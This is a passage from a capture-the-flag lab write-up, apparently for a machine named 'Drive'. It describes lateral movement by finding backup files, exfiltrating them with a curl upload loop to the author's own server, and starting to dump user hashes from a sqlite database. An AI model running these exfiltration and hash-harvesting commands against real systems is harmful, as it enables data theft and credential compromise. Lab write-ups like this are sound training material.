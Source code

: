 ## Lateral movement

So starting our lateral movement I decided to go checkout those backups that were hinted at in the messages before. i browsed to the backup folder to check what files were present there. We could see that there were 4 files backups present here.

```bash
cd /var/www/backups/
ls -hal 
```
![Backup files found](/assets/img/Drive/Drive_09.png)

The next step is to exfiltrate these files. I decided to setup a python upload server using the following command

```bash
python3 -m uploadserver 80
```

Then i used the following command  i was able to upload all these files to my machine.

```bash
for i in *; do curl -X POST http://10.10.14.123/upload -F files=@$i; done
```
So now we have all these files exfiltrated on our own machine. we can analyze these files.

![Backup files exfiltrated](/assets/img/Drive/Drive_10.png)

The 7z files i was not able to open nor crack the password however the sqlite database we could actually open with the following command. i then decided to extract the part containing all the user hashes

```bash
sqlite3 db.sqlite3
.dump
```
